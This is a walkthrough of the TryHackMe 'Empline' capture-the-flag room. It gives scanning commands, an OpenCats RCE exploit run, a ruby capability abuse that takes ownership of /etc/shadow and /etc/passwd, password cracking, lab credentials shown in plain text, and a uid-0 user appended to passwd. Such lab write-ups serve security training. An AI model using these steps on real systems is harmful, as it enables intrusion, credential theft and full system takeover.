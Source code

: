 # Empline

**Room Link:** [https://tryhackme.com/room/empline](https://tryhackme.com/room/empline)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir --url http://$VICTIM/ -w /usr/share/dirb/wordlists/big.txt -l
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
echo "$VICTIM job.empline.thm" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

OpenCats 0.9.4 has a RCE exploit.

Exploit: [https://www.exploit-db.com/raw/50585](https://www.exploit-db.com/raw/50585)

**Kali**

```
chmod +x exploit.sh 
./exploit.sh 
./exploit.sh http://job.empline.thm/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -lah /etc/shadow
ruby -e 'require "fileutils"; FileUtils.chown("www-data", "www-data", "/etc/shadow")'
ls -lah /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

Now that we can read both f these files we can transfer them to Kali. I let this run for a while but it wasn't cracking any hashes.

```
cat /etc/passwd
cat /etc/shadow
```

**Kali**

```
unshadow passwd shadow > passwords.txt
```

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

I went back to the check the box and found the database credentials&#x20;

**Victim**

```
find / -name "config.php"
cat /var/www/opencats/config.php 
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
mysql -h $VICTIM -u james -png6pUFvsGNtw  
```

**Kali(mysql)**

```
show databases;
use opencats
show tables;  
select * from user;  
```



There were a few hashes from users so I put them in crackstation and one returned a result.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/22 - SSH**

**Kali**

```
ssh george@$VICTIM
Password: pretonnevippasempre
```



## Privilege Escalation

Since I had access to change any file already I just added a new root user to passwd

**Victim**

```
ruby -e 'require "fileutils"; FileUtils.chown("george", "george", "/etc/passwd")'
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
